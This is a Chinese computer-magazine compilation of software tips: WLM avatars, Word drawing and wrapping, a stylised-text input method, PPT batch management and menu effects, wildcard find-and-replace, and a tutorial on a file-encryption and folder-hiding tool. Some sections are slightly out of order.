**第三步**：根据提示发送手机短信获取验证码，填写验证码，最后单击“确定”按钮。

上述操作完毕，你的WLM头像即可换上你选中的卡通动漫头像。相信你的头像将会极受欢迎，令朋友过目不忘。

头像焕然一新，心情自然十分开心，好头像带来好心情！想怎样玩就怎样玩！不过也要提醒一下，只有双方都安装使用最新版WLM，才可正常显示彼此双方的动态头像。否则，就算你的WLM用上动态头像，对方看到的也只不过是静态图片。

## 在Word中让环绕方式“出出格”

我们都知道Word中的文字环绕方式相当丰富，有上下型环绕、四周型环绕、紧密型环绕和衬于文字下方等。其实我们还可以让环绕方式“出出格”，不信跟我一起试一下。

在Word 2003中插入图片后单击图片会打开“图片编辑”小窗口，然后单击“图片编辑”窗口中的“文字环绕→编辑环绕顶点”，这时图片会被红色虚线和四角上的小黑块控制点圈上，把鼠标指针指向红线或四角的小黑块控制点后按住左键拖动就能让文字的环绕方式变得里出外进了（见图）。

在Word 2007中插入图片后单击图片，然后单击菜单栏中新出现的“格式”菜单，再到“排列”控件组中单击“文字环绕→编辑环绕顶点”，这时图片会被红色虚线和四角上的小黑块控制点圈上，把鼠标指针指向红线或四角上的小黑块控制点后，按住左键拖动就能让文字的环绕方式变得里出外进了。



## 让你的文字炫起来

文/TMG qf

在你的QQ上、MSN上、网游中，朋友的BLOG里、还有个性签名里，随处可见火星文的身影。这些文字看起来古灵精怪很有个性，但是要打出来却不太方便，有什么方法可以方便地打出我们想要的文字样式呢？我们可以用火星文输入法（下载地址：http://www.newhua.com/soft/62770.htm）来呈现各种古灵精怪的文字。

- 第一步：下载火星文输入法，解压缩安装火星文输入法。运行以后，就会出现火星文输入法的工具条，上面有“火”、“繁”、“简”、“符”等字样，分别对应“火星文”、“繁体”、“简体”、“火星文符号”的字体。只要轻轻一点，你就能随时切换各种字体，从而实现各种输入效果（见图1）。


- 第二步：单击“火”按钮时，会出现“拆字”选项，这会出现什么样的效果呢？所输入的文字融入“拆字”的效果，也就是俗称的“散光字”。让我们一起来看看这些效果吧（见图2）。



- 第三步：单击“符”按钮，这里提供了多种符号组成的表情，只要单击，再拖动就可以了。用在QQ签名上，形象地表示心情，一定很炫（见图3）！



- 第四步：这个软件还有强大的DIY功能，我们可以充分发挥自己的想象力，创造属于自己的火星字。单击“火把”图形，选择“自定义火星文”选项，分别输入原始简体字及自定义的火星文字，单击“添加”按钮，将在列表中呈现出效果，再单击“确定”按钮。以后再打出定义的字，就会显示出自己创造的那个火星文（见图4）。



- 第五步：此软件还可以自定义火星符号，这样就可以输入DIY的表情，并附上说明。单击“火把”图形，选择“自定义火星符号”选项，输入自定义的表情符号，单击“添加”按钮，将在列表中呈现出效果，再单击“确定”按钮。单击“符”按钮，就可以看到我们刚添加的表情符号了。“自定义火星文”、“自定义火星符号”还配备了导入、导出的功能。当你更换电脑，或者想和朋友一起分享的时候，就可以方便地保存与传递，不用担心会丢失了。

- 第六步：设定火星文输入法使用的范围，比如在Word、Excel、IE等程序里，自动默认为简体状态。这样不用进行切换，工作娱乐两不误。单击“火把”图形，选择“应用程序加载控制”选项。

## 用Word绘图工具制作精美图片

文/高建华

请大家看图，感觉是不是不错啊，可是你可知道这是用Word绘图工具做出来的吗？现在我就以制作“玉三环”图片为例说明它的制作过程。

- 1. 制作三环
（1）用鼠标选择绘图工具栏中的“自选图形→基本形状→空心弧”工具。用鼠标在Word作区中拖动，调整空心弧到合适大小。再用鼠标拖动黄色控制柄来调整空心弧的宽度到合适状态。
（2）选择空心弧，按住Ctrl键，拖动鼠标、再复制出5个空心弧来，准备制作3个圆环。
（3）按住Shift键，单击下边的3个空心弧、则3个空心弧被选中，执行“绘图→旋转与翻转→垂直翻转”命令使它们开口向上。再向上拖动它们，使它们和上面的3个空心弧很好地接在一起，这样就做成了3个同心圆了。

- 2. 为每个同心圆填充不同的过渡颜色：
（1）首先选择第一个同心圆的上下两个半圆，单击绘图工具栏中“填充颜色”按钮右边的下拉按钮，选择“填充效果→填充效果对话框→过渡/双色”自己可根据自己的喜好，选择任何不同的两种颜色，在下面的“底纹式样”中选择变形第4种，单击“确定”即可。
（2）用同样的方法把剩下的两个同心圆也填充上不同的过渡颜色。

- 3. 制作三环相套及背景衬托：
（1）选择第二个同心圆的两个空心弧，向左移动到第一个同心圆上，看看是否两个圆套在一起，如果没有套在一起，则选择其中一个空心弧，执行“绘图→叠放秩序→置于底层或置于顶层”命令，就能让两个同心圆套在一起了。同样的方法，把第3个圆也和前两个套在一起。
（2）去掉线条、增强立体感觉：为了使立体效果更加明鲜，把3个同心圆全部选中，执行绘图工具中“线条颜色→无线条颜色”命令。
（3）做背景衬托三环：为了更能体现玉石之美，制作一个黑色背景来衬托一下。方法就是制作一个矩形，填充上黑色，通过调整矩形的叠放秩序使它处在最底层即可，如图所示。这样一幅精美的“玉三环”图就做好了。



### 你的电脑加密了吗？

文/TMG hzl

谁没有一些隐私呢？信息时代，黑客或木马程序横行，网络世界到处布满陷阱，我们那些电脑里的私秘文件时刻都有可能被别人窃取。除非我们选择永不上网，只要上网这种隐患就一直存在。

所以说，保护自己的电脑文件安全迫在眉睫。为此，我们可以选择一款加密软件来保护自己的秘密或隐私文件。不过，加密软件数量不少，良莠不齐，如果选择了滥竽充数的伪加密软件，后果真的不堪设想。寻找一个安全可靠的加密软件来给电脑文件加密吧，保护文件安全从现在做起。

- 1. 第一步： 下载功能强大的文件和文件夹加密工具——加密金刚锁（下载地址：http://www.onlinedown.net/soft/5075.htm）。安装很简单，只要一路单击“下一步”即可。
- 2. 第二步： 安装成功后，双击桌面软件图标就可启动程序，然后出现个注册提示（软件可试用45天），单击“试用”按钮即可。
- 3. 第三步： 接下来程序会弹出一个消息框，提示我们设置一个进入“加密金刚锁”的密码，单击“确定”按钮，进入密码设置窗口。此时，假如不想设置进入此软件的使用密码，单击“不要密码”按钮即可进入“加密金刚锁”主界面。不过，我们最好还是设置进入密码，这样相对来说更加安全些。“加密金刚锁”为我们提供了三种密码设置方式：使用密码、使用授权盘、使用文件做密码。我们可以根据个人需要和喜好选择密码设置方式，可选择其中一种，也可以同时选择使用三种密码设置方式。密码设定后，单击“确定”按钮，就进入了“加密金刚锁”主界面。我们要记得所设置的密码，以防下次运行此程序不能进入软件主界面。
- 4. 第四步： 可以看到软件主界面类似Windows的资源管理器，最上方的一排都是功能按钮，鼠标移到这些功能按钮时，使用说明一览无余，软件设计非常人性化，操作简单轻松。主界面下方是文件列表框，可以在此进行选择文件或文件夹的操作。下面，我们就来一一介绍具体怎样给各种类型文件加密，以及如何解密。

#### 如何给普通文件加密及解密？

首先，依次展开“我的电脑”，选中需要加密的文件，接着单击软件主界面的第一个按钮，也就是“加密”按钮，弹出了加密选项的窗口，在上面勾选“启用压缩功能”，加密算法选择“AES”，最后单击“确定”（见图1）。



确定下来后，会弹出加密窗口，我们按照提示根据个人喜好，依次设置好密码、授权盘、授权文件。在这里，我们最好也选择设置授权盘和授权文件，这样会更加安全，起到三重保护的作用。就算密码被别人窃取也还有两重保护。设置完毕后，单击“确定”（见图2）。



接下来，软件就开始加密指定的文件，加密完成后我们要注意千万不要忘记密码和备份做为授权的文件。此外，我们还可以设置右键执行，打开“工具”菜单，选择“增加鼠标右键菜单功能”，这样就可以直接通过资源管理器的右键菜单加密、解密文件，更加方便快捷。假如要删除此功能，选择“删除鼠标右键菜单功能”即可。

解密其实很简单，依次展开“我的电脑”，选中需要解密的文件右击，选择“解密”，然后按照提示输入刚才我们设置的密码运行“加密金刚锁”。软件运行后，立即会弹出解密窗口，按提示输入刚才所设置的开锁设置（密码、授权盘、授权文件），然后单击“确认”按钮即可（见图3）。输入选项假如没有错误的话，解密



#### 如何为嵌入式文件加密和解密？

嵌入文件式加密是一种很独特巧妙的加密设计，可以通过“加密金刚锁”的这项功能，把一个或多个文件加密后，然后将其隐藏在某一个文件中，此文件也就是“宿主文件”。很多种格式文件都可以做“宿主文件”，比如我们可以选择图片文件、MP3文件或EXE文件，一切随个人喜好。更令人佩服的是，经过嵌入文件式加密后的宿主文件本身没有被破坏，也不受什么影响，图片依然能观看，MP3文件依然能播放，EXE文件依然能执行，假如不告诉你的话，你根本就难于发觉此文件里还藏着那些被加密的文件。通过这功能，我们不但可以轻松地将整个目录都加密打包然后隐藏于一个宿主文件，而且还可以将它们带路径释放。不过，使用嵌入文件式加密后，“宿主文件”文件的体积会相应增加。

首先在文件列表里，选择我们要加密的文件，单击“嵌入文件式加密”按钮。接着出现“嵌入文件式加密选项”对话框，勾选“加密后安全地删除源文件”和“启用压缩功能”，再选择加密算法，然后选择宿主文件，选择完毕后单击“确定”即可（见图4）。



在弹出的密码输入窗口里，我们按照提示设置密码、授权盘等项，然后单击“确认”后也就完成了嵌入文件式加密。此时，整个加密工作全部完成了，我们发现，宿主文件体积明显增大，不过除了体积有变化外其他都没有变，所以说，这个加密方法非常隐蔽，也很巧妙，很适合用在那些私密文件上。不过我们平时也要注意别误删了宿主文件，一旦删了那真的是损失非常严重。

嵌入式文件解密也很简单，先单击软件主界面的“嵌入文件式解密”按钮，然后选择我们需要进行解密的“宿主文件”，同时勾选“解密后还原宿主文件”，这样才能确保解密完毕后宿主文件可以恢复原样。接下来单击“确定”按钮，在弹出的输入密码窗口里输入我们刚才加密时所设置的加密设置，最后单击“确认”按钮即可对该文件进行解密。

#### 如何携带或传机密文件？

很多时候，我们可能需要将一些文件加密携带到其他电脑，或者在网络上传送一些机密文件。不过，假如对方没有安装加密金刚锁软件，那就根本无法操作。怎么办呢？可以运用“加密金钢锁”里的“加密并打包为EXE文件”功能，该功能轻易实现你的需求，也保证对方可以脱离软件进行解密。具体操作如下：

首先选择需要加密的文件，单击软件主界面上“加密并打包为EXE文件”按钮，接着勾选“加密后安全地删除源文件”和“启用压缩功能”，然后输入目标文件名，也就是即将要建立的exe文件名。完毕后，单击“确定”，弹出一个窗口，在上面设置密码选项，最后单击“确认”即可完成打包工作（见图5）。



打包加密后，该EXE文件就能脱离加密金刚锁独立运行，我们可以将它携带或传送。解密时，主要双击此文件，接着输入释放文件夹和密码，最后单击“释放”按钮即可释放出该加密文件。

#### 如何对程序文件加密解密？

如果让可执行的exe文件设置上密码保护，使该文件要运行就必须先验证密码，假如密码不符那就拒绝执行，而且被加密的该可执行文件依然能支持带命令行参数执行就好了。具体设置过程如下：

首先，选中需要加密码保护的“.exe”执行文件，然后单击主界面上的“加密EXE文件按钮”按钮，接下来按提示为该执行文件设置密码即可（见图6）。设置成功后，运行此执行文件，就必先要通过验证密码，在弹出的对话框里假如输入的密码不正确则运行不了此执行文件。假如想要将该EXE文件的密码解除，单击“解密EXE文件”按钮，按提示进行该执行文件的解密操作即可。



#### 如何安全删除文件让它们恢复不了？

很多人都知道，平时我们使用Windows系统提供的删除命令将文件删除后，可以通过一些文件恢复软件，如recover 4 all软件，轻易就将那些删除的文件恢复过来。所以说，文件就算删除了仍然还不是那么安全。而运用加密金刚锁软件提供的“安全地删除文件”功能，我们则可以将这个隐患完美解决，使那些文件无法再恢复。使用方法非常简单，选中我们需要删除的文件或文件夹，然后单击“安全地删除文件”按钮，即可将那些文件安全删除，绝不留下一点隐患（见图7）。



#### 如何加密隐藏文件夹？

假如我们需要加密很多文件时，一个一个地给文件加密明显太耗费时间，效率太低。这时，我们就非常需要可以将整个文件夹加密的功能。单击主界面的“保护文件夹按钮”按钮，在弹出的窗口里，我们可以发现加密金刚锁软件提供了众多针对文件夹的加密功能，比如其中可以选择伪装文件夹功能将机密文件夹伪装成普通文件，或者打印机，甚至回收站也行。具体操作如下：

首先在文件夹列表中选择我们需要加密的文件夹，接着单击“伪装文件夹”按钮，在弹出的窗里我们选择伪装方式“回收站”，然后单击“确定”按钮即可（见图8）。

此时我们打开资源管理器，查看一下，就会发现原来的文件夹消失了，变成了一个回收站图标。假如你不知道其中窍门的话，你是绝对很难发现这个回收站里就是原来那个文件夹，它的里面竟然隐藏着那么多秘密。而且，更巧妙的是，我们双击进入伪装后的文件夹，却看不到任何内容。假如以后我们要还原这个文件夹，只要在原来那个窗口里选中我们伪装过的文件夹，接着单击“还原文件夹”按钮即可。



不过我们也要注意，伪装文件夹时，假如伪装成普通文件，双击该文件时我们还是能看到文件夹里面的内容，因此我们使用隐藏文件夹功能时，最好选择“隐藏文件夹”将文件夹彻底隐藏起来，这样才比较安全。

最后，我们也会看到在保护文件夹工具里，还有很多其他加密功能，比如我们可以进行加密文件夹、设置加密文件夹图标等操作，其设置过程跟上述很多操作都类似，这里就不一一介绍了，假如你需要的话你可以自己尝试一下。

#### 挖掘更多的实用功能

此外，我们还可以利用加密金刚锁的隐藏驱动器功能，将一些需要保密的分区隐藏起来。只要单击菜单栏“工具→隐藏驱动器”选项，然后在弹出的“隐藏驱动器”窗口选择禁止MSDOS方式，同时勾选需要隐藏的分区，最后单击“隐藏”按钮即可。

而且，加密金刚锁还有密码管理功能，可以非常方便地管理我们的密码，将QQ、ICQ、MSN、邮箱等等密码——放进此软件的密码管理器里，又省事又安全，就算你遗忘了一些密码，打开密码管理器立即可以找到你忘记的密码。

怎样，感觉是不是特别棒？从此，我们也不用再提心吊胆，担忧自己的私密文件被窃取了。所以说，使用加密金刚锁这款文件和文件夹加密工具，能非常有效地管理我们的文档和秘密，帮我们解决了安全隐患。为了我们电脑安全，快点行动吧，给自己电脑加上一把牢固的金刚锁！

### PPT文档批量处理工具，教你征服自己的PPT文档

文/山东郑春英

PPT演示文稿是进行演讲、报告、授课等活动的首选工具。相信很多朋友电脑中都会存有大量PPT文档，时间久了文件的管理，比如查找、批量复制、转移、打印、不同文档类型的转换等就比较困难，借助“PPT文档批量处理工具”可以轻松搞定这些操作。

“PPT文档批量处理工具”（下载地址：http://www.mydown.com/soft/utilitie/officetools/38/443038.shtml）是一款主要针对PowerPoint文档进行管理的工具软件。借助这款软件可以进行文件的搜索、拷贝、移动、打印和删除，文档内容查找、内容替换、文档快照、文档目录清单报表以及幻灯片到BMP等多种类型格式转换等操作。软件属于绿色版本，无需安装，并且支持U盘运行。

#### 1 快速查找所需文档

启动软件后，在左侧的文件夹列表中双击我的电脑或某个盘符下的某个文件夹，软件会快速地在指定位置搜索所有的PPT文档，并显示在右侧的文档列表中。借助这个功能可以快速地找到电脑中的所有PPT文件，无需一步一步定位到某个具体的文件夹。这个功能在不知道文件名称或者详细内容的情况下非常有用。如果知道文档的相关信息，可以借助搜索命令进行快速查找。首先，在工具栏中单击“搜索”按钮，在搜索工具条中输入完整的或部分文件名，然后单击“搜索”按钮即可。另外，还可以单击搜索工具条右侧的“定义搜索选项”按钮，弹出“文档搜索类型及属性定义”对话框，可以设定搜索的文档类型、文档的属性以及指定文档日期和大小（见图1）。



#### 2 自动替换文档中的指定内容

在文档中进行替换操作，当然可以在打开对应文件的情况下，借助“查找和替换”命令进行处理。但这需要打开对应文档，如果需要替换的文件比较多，这种方法就不太实用了。在PPT文档批量处理工具中无需打开对应文档就可以进行查找替换操作。首先，在工具栏中单击“替换”按钮，弹出查找替换对话框，在“查找内容”文本框中输入需要查找的信息，在“替换为”文本框中输入替换后的内容，单击“添加规则”按钮，将自定义的规则添加到替换规则列表中，单击其他几个按钮，还可以对规则进行导入、保存和删除操作（见图2）。然后在左侧文档列表中勾选需要操作的文档，单击“开始替换”按钮，即可自动完成替换过程。



#### 3 生成文档目录

如果文件比较多，管理就比较麻烦，这时我们可以借助PPT文档批量处理工具生成目录进行管理。在工具栏中单击“生成目录”按钮，弹出编辑目录对话框，在文档列表中选定需要生成目录的所有文档，在文档密级标签组中设定一种秘密级别，并输入责任人和机器的编号，最后单击“导出列表”按钮，即可将生成的目录导出到Word文档中（见图3）。

#### 4 文档标密与打印

如果文件的秘密级别不同，可以借助这款软件进行标示。在工具栏中单击“标密”按钮，弹出标密对话框，在文档密级标签组中选定一种密级级别，在文件名标密标签组中单击选择“文件标密”单选按钮，最后单击“文件标密”按钮即可。文档的打印比较简单，在工具栏中单击“打印”按钮，设定好打印的份数与打印设置，打击“批量打印”按钮即可。



#### 5 批量复制移动文件

有时需要批量整理自己的PPT文档，如果这些文件不在一个目录下，复制移动就比较麻烦，借助PPT文档批量处理工具可以快速地将文档列表中的文件批量复制移动到指定位置。首先，在左侧的文档列表中选中需要操作的文件，然后在工具栏中单击“复制移动”按钮，在弹出的对话框中单击“全部复制到”、“选中复制到”、“全部移动到”和“选中移动到”中的某个按钮，再选定目标文件夹进行复制或者移动操作。

### 图片也变大头贴，看我PPT制作

制作形状各样大头贴往往需要借助相关的专业软件，不过你是否知道其实PPT也能变普通图片为颇具个性的大头贴呢？
首先，打开PowerPoint 2007，点击“插入”菜单，单击“形状”选项卡，在弹出的列表框中，选择自己喜爱的图形并且插入至幻灯片。
准备工作做完后，用鼠标右键选定这一图形，在弹出的列表栏中选择“设置图片格式”。接着，在弹出的对话框中，选择“填充”，对话框右侧显示各种填充方式，我们选择“图片或纹理填充”。接下来，单击下方的“插入自‘文件’”按钮，选择一张人物照，这时候图片已经填充到相应的图形里了。
不过，此时的图片明显还不能满足大头贴的特点和效果。那么，接下来，我们还要对这一新的图片进行进一步修改。刚才我们已经打开了“设置图片格式”对话框，在“图片或纹理填充”的各项设置中，我们把“将图片平铺为纹理”前面的选择框勾选中，此时对话框新列出“平铺选项”的各种属性，我们通过设置“偏移量”和“缩放比例”的具体数值使图片符合自己的要求，修改完毕后，一张颇具个性的大头贴便“诞生”了！右键单击大头贴，选择“另存为图片”，将它保存在指定的位置即可。

- ★ 大头贴制作完毕后，如果发现形状不尽如人意，可以先双击大头贴，然后依次选择“格式”菜单栏中的“编辑形状→更改形状”，用新的图形替换当前图形即可；或者通过“编辑形状→转换为任意多边形→编辑顶点”，任意修改图形形状直到自己满意为止。
- ★ 配合“图片工具”的“格式”属性，还能给大头贴设置透明色、投影、映像、边框、棱台等丰富效果，感兴趣的朋友不妨试试吧！

### “抠”出中英文对照文档中的中文内容

手头有一个Word文档，其中采用了中英文对照的布局方式，现在只要求保留中文，也就是说需要将其中的英文内容删除。如果采取纯手工的方式进行操作，显然太麻烦了，其实我们可以通过“替换”功能来实现，这里以Word 2007为例进行说明。

#### 规范文档的简单替换

对于比较规范的文档，一般情况下我们只需要将两个相同编号之间的内容删除即可，具体步骤如下：

- 1. 第1步：插入空白行
    按下“Ctrl+Home”组合键，将光标定位至文档的最前端，插入一个空白行，这主要是为了后续替换的方便。

- 2. 第2步：替换相同内容
    按下“Ctrl+H”组合键打开“查找和替换→替换”对话框，单击“更多”按钮切换至高级替换模式，将查找内容设置为“(<[0-9]@.[0-9]@)\1”，“替换为”设置为“\1”，最后不要忘记勾选“使用通配符”复选框，单击“全部替换”按钮。

- 3. 第3步：删除空白行
    接下来的工作就简单多了，仍然打开替换对话框，取消“使用通配符”的勾选状态，将查找内容设置为“^p^p”，“替换为”设置为“^p”，最后单击“全部替换”按钮，即可将多余的空白行全部删除。

#### 复杂文档的替换

事实上，实际工作中的完整文档并非如此规范，此时可能需要多替换几次，建议在删除之前先通过标记进行确认，具体步骤如下：

##### 1.加粗字体部分
打开替换对话框，单击“更多”按钮切换到高级替换模式，勾选“使用通配符”复选框，将查找内容设置为“[^1-^127]”，单击左下角的“格式”按钮，从下拉菜单中打开“字体”对话框，设置为“加粗”格式，表示查找所有加粗的西文字符；“替换为”设置为空，从“格式”下拉菜单中选择“突出显示”，单击“全部替换”按钮之后可以将加粗字体部分突出显示。
如果确认突出显示的内容正确，那么可以最终执行删除操作。

##### 2.非加粗字体部分
对于没有加粗的部分，将查找内容设置为“^13[!^13]@[^13]{1,}”，查找格式不应该是加粗，替换为空，替换格式仍然是“突出显示”，正常情况下应该是突出显示所有的中文段落，然后将其复制出来就可以了。

#### 6 导出其他格式文件
如果需要将PPT演示文稿导出为其他类型的文档，可以在工具栏中单击“导出”按钮，弹出导出对话框。在输出文件格式标签组中单击选择“单个文件网页”、“网页”、“文本”、“大纲/RTF”和“位图”格式中的一种，再单击“保存到”文本框右侧的“选择目标文件夹”按钮，设定一个导出的位置，最后单击“保存”按钮即可（见图4）。



### PPT也玩菜单特效

文/山东 孙萌

我们在制作PPT演示文稿时，经常需要在某张幻灯片中执行切换到其他幻灯片的操作，常规的做法是在该幻灯片中插入若干个按钮并为这些按钮添加指向不同幻灯片的链接。如果需要在多张幻灯片执行切换到其他任意一张幻灯片的操作时，这样的做法不但工作量大，而且在每张幻灯片中有很多按钮，界面也会不美观。怎样才能解决这个棘手的问题呢？其实，我们可以在幻灯片中添加一个下拉菜单选项，这样我们在不同的幻灯片之间来回切换时就方便多了。下面，笔者就给大家介绍一下如何来实现。

**第一步：启动PowerPoint 2003**（其他版本操作类似），新建一个名为“菜单特效”的PPT文档，保存到硬盘的任意目录下（如F盘根目录下）；然后单击菜单“视图→母版→幻灯片母版”命令，打开“幻灯片母版视图”模式；接着将默认幻灯片中的所有元素都删除并右击之，再选择“背景”，打开“背景”对话框，选择自己比较喜欢的图片做为幻灯片的背景；最后复制该幻灯片，根据所要添加的菜单选项的多少执行若干次粘贴操作（如，粘贴四次）。

**第二步：**选中“绘图”工具栏中的“矩形”按钮，在第一张幻灯片的左上角插入一个矩形做为主菜单选项；接着右击该矩形，选择“设置自选图形格式”，打开“设置自选图形格式”对话框并切换到“颜色和线条”选项卡，根据自己的喜好设置好矩形的背景；再一次右击该矩形，选择“添加文本”，在矩形内输入主菜单选项的名称（如图1，A处所示的“幻灯片切换”），最后设置好字体、字体大小等参数，使之整齐美观。


**第三步：**复制矩形“幻灯片切换”并执行五次粘贴操作（一共有五张幻灯片），然后将粘贴的这五个矩形和第一个矩形排成一列使之整齐美观，再将粘贴的五个矩形内的文字修改为其他内容做为子菜单选项（如图1，B处所示）；接着右击矩形“首页”，选择“动作设置”，打开“动作设置”对话框，勾选“超链接到”单选框；再单击该单选框右下方的下拉箭头，选择“幻灯片1”（如图2），最后单击“确定”。



**第四步：**按照第三步所介绍的方法，再为图1中的“导入语”、“作者简介”、“演示主题”、“扩展延伸”等矩形添加超链接“幻灯片2”、“幻灯片3”、“幻灯片4”、“幻灯片5”等超链接；然后选中图1，B处所示的五个矩形并右击之，选择“组合→组合”，将其组合到一块儿。

**第五步：**选中图1，B处所示的组合到一块儿的一个矩形，单击菜单“幻灯片放映→自定义动画”命令，打开“自定义动画”面板；然后单击“添加效果”按钮，选择“进入→其他效果→切入”为该组合到一块儿的矩形添加一个切入动画特效；接着将“方向”参数修改为“自顶部”并双击“速度”参数下边的列表框中新出现的动画选项，打开“切入”对话框并切换到“计时”选项卡；再单击该选项卡中的“触发器”按钮，勾选“单击下列对象时启动效果”单选框并单击其右边的下拉箭头，选择“幻灯片切换”选项（如图3），最后单击“确定”按钮即可。



**第六步：**再一次选中图1，B处所示的组合到一块儿的一个矩形，单击“自定义动画”面板中的“添加效果”按钮，选择“退出→其他效果→切出”，为该矩形添加一个切出动画特效；接着将“方向”参数修改为“到顶部”，打开“切出”对话框并切换到“计时”选项卡，将该动画的触发器设置为“幻灯片切换”选项；最后单击“幻灯片母版视图”工具栏中的“关闭母版视图”按钮，退出“幻灯片母版”编辑模式就可以了。

完成上述操作之后，大家就会发现在PPT2003的窗口中只包含一张幻灯片，复制该幻灯片并粘贴四次，然后关闭并保存对“菜单特效.ppt”所做的修改，再重新打开之，按下F5快捷键，就可以预览到其效果了（如图4），单击图4中的“幻灯片切换”选项，就会弹出一个图1，B处所示的子菜单，选择子菜单中的某个选项，就可以快速地切换到对应的幻灯片了。



怎么样，在幻灯片中添加了一个菜单选项之后，我们只须轻点鼠标，就可以完成在任意两张幻灯片之间来回切换，是不是比原来方便多了呢？感兴趣的朋友不妨一试。

### Word绘图的基本方法和技巧

文/河南 魏永华

Word的字处理功能和排版功能非常强大，图文混排的功能更是不在话下，但很多用户在使用Word绘图功能时，图形做不好，图形和图片大都是在其它软件上做好或者扫描后插入文档中的，还抱怨说Word的绘图功能不太好用，其实这是由于未能掌握绘图的基本方法及技巧造成的。下面向你介绍一些Word中有关绘图的方法和技巧。本文是在Word 2003下完成的，所附图片均为Word 2003中抓取的。对于Word 2003的以前版本大同小异。本方法同样也适用于Office中其他套件中。

#### 基本绘图方法

绘图工具栏如图1，在Word窗口的下方，如果没有出现，点菜单中“视图”按钮，在“工具栏”中选中“绘图”。图1中除“绘图”按钮和“自选图形”按钮外没有标注的按钮不属于本文内容。



#### 最基本的操作：

##### 1. 绘制图形
如果一次只画一个同类的图形，比如画一条直线，在绘图工具栏中单击“直线”按钮，鼠标指针变成“十”字形状，按住左键并拖动鼠标至另一点，释放左键，在两点之间就会形成一条直线，画完后按钮会自动弹起，要画第二条需要重复以上步骤。如果要连续画多个同类的图形，比如画直线，双击“直线”按钮，可以连续画多次。要取消此项操作可再点一下“直线”按钮或按Esc键或右键退出。使用“自选图形”按钮：包括“基本形状”、“箭头总汇”、“线条”、“流程图”、“星与旗帜”、“标注”、“其它自选图形”，每一个选项下又有许多常用的绘图按钮，可以用这些按钮快速地绘制各种图形。

##### 2. 按住Shift键的画图效果
画直线时画出水平、垂直等以15度为步进角度的直线，画矩形时可以画出正方形框，画椭圆时可以画出正圆，画其它图形时，会保持Word默认的纵横比例关系。

##### 3. 按住Shift键的对图形的修改效果
对于画好的图形，要移动对象，对象可保证只能在垂直或水平方向上移动。要改变大小，对于直线，拖动控制点，可调整直线的长短，而保持直线的方向不变；对于除直线外有八个控制点的图形，拖动四角的点可保持图形拖动前的纵横比例关系。

##### 4. 按住Ctrl键的画图效果
鼠标的落点为所画对象的中心点，对象在两个方向上对称地放大或缩小。同时按住Shift键，也会同时具有按住Shift键的画图效果。

##### 5. 按住Ctrl键的对图形的修改效果
拖动控制点，对象在两个方向上对称地放大或缩小。同时按住Shift键，也会同时具有按住Shift键的效果。另外，按住Ctrl键移动对象，可以在松开鼠标的地方克隆出一个图形对象。

需要注意的是：以上操作一定要在松开鼠标左键后再松开按键。

##### 6. 解决Word中绘图或移动时跳动而不能任意移动的问题
在绘制图形时，有时会出现绘图工具画出的线要么接不上，要么就出头，很让人头疼。这是因为在Word中页面中有隐藏的网格线，默认的是让图形与网格线对齐的，所以画图或移动时对象是跳动而不能任意移动。有两种方法可以解决：一是操作时按住Alt键，绘图或移动就能任意了。二是通过改变绘图设置选项可以方便地解决这个问题。点绘图工具栏中的“绘图”按钮，在出现的菜单中点“绘图网格（I）…”，出现一个如图2“绘图网格”对话框，把“对齐”项中的“对象与网格对齐”的对钩去掉。如果为了方便与其他对象连接可以把“对象与其他对象对齐”选中。如果想让图形与网格线对齐的，又要调整方便，可以改动“网格设置”中的“水平间距”和“垂直间距”选项值，符合自己需要即可。如果想一直使用这样的设置，可点“默认”按钮，把设定的值作为Word的默认值，这样建立其他文档时就不需要重复设置它了。现在点“确定”按钮来试一试效果。



#### 怎样选中多个图形进行组合

“组合”命令可以使多个对象组合成一个对象，这样可以保持各个对象的相对位置关系不变。当需要组合的对象比较少，且对象容易被鼠标捕捉时，按下鼠标左键即可选定一个，再按住Shift键，依次单击各个对象即可选中多个对象。要取消多个选中对象中的一个时，按住Shift键点击该对象即可。

当需要组合的对象比较多，并且比较集中时，单击图1绘图工具栏的“选择对象”按钮，在对象区域外侧的适当地点按住鼠标左键，然后拖动鼠标出现一个矩形的虚线框，待欲选定的对象位于矩形虚线框内时释放鼠标，便可选中多个或者全部对象（这一点和WPS不同，WPS中只要对象的一部分在虚线框内就可被选中）。

当要选定的对象比较分散，并且对象不易被鼠标捕捉时。右键单击“绘图”工具栏，单击“自定义”命令。在“自定义”对话框中选择“命令”选项卡，在“类别”列表框中选择“绘图”选项，用鼠标将“命令”列表框中的“选中多个对象”拖放到“绘图”工具栏中，见图3，单击“关闭”按钮。在Word“绘图”工具栏中就会增加一个“选中多个对象”按钮，如图5。工作区内绘制了多个对象时，单击“绘图”工具栏建立的“选中多个对象”按钮，在弹出的“选中多个对象”对话框中列出了所有对象，如图4，在“对象”列表框中用鼠标单击欲选定的各个对象，选择完毕后单击“确定”按钮，即可选中多个对象。但这个方法有一个不方便的地方：当在“选择多个对象”的对话框中选定某个对象时，文档中的哪一个位置的图形被选中在图形上没有变化，也就是说不显示控制点，所以你从选中的对象名称上无法判断是图中的哪一个位置的图形，只有点击“确定”按钮后才知道。除非你记住了每一个图形对象的编号，不过这有点强人所难吧！






根据本人的经验，当选中多个对象进行组合时，最好用鼠标操作由点击“绘图”按钮后弹出的菜单中的“组合”按钮，如果用右键点的话，不小心会取消选中的，前功尽弃。

#### 绘图技巧实例

下面通过一些实例来介绍Word绘图的方法和技巧，不再单单介绍某一项的功能，而是从下面的实例操作中对Word的绘图功能有一个总体的认识。

##### 1. 怎样画函数图形
很多朋友都不用Word绘制函数图形，认为这需要手工操作画曲线，不好掌握，很难成功，就是画了，也不尽人意。其实这是因为没有了解Word的功能。当然，谁都很难一次画成功，这需要对不成功的图进行调整，下面是画一个二次函数曲线的详细过程。

单击如图1中的“箭头”按钮，光标变成了“+”字形状，按住Shift键，在合适的位置从下向上画一条竖起线。Word默认的箭头样式不好看，应改一改箭头样式。单击如图1中的“箭头样式”按钮，在出现的上拉菜单中点“其他箭头（M）…”，弹出一个对话框，在“线条与颜色”标签中点击“末端样式”项下拉三角，在弹出的框中选“燕尾箭头”，如图6，再点击“末端大小”项下拉三角，在弹出的框中选“右箭头1”，如图7，这样箭头的样式就变成了数学书上常见的样式了。如果要保持这种箭头样式，可在此箭头线选中的状态下，点图8中的“设置自选图形的默认效果”，再画箭头线时就是刚才所设的样式。







横轴当然可以重复上面的方法，不过最好的方法是复制。使上面所画的纵轴处于选中状态，按住Ctrl键用鼠标拖动对象，复制一个同样的箭头线。点击“绘图”按钮，按如图8操作，使复制的对象向右旋转90°，这样坐标系的横轴就完成了。适当调整两条箭头线的位置，就形成了一个坐标系。

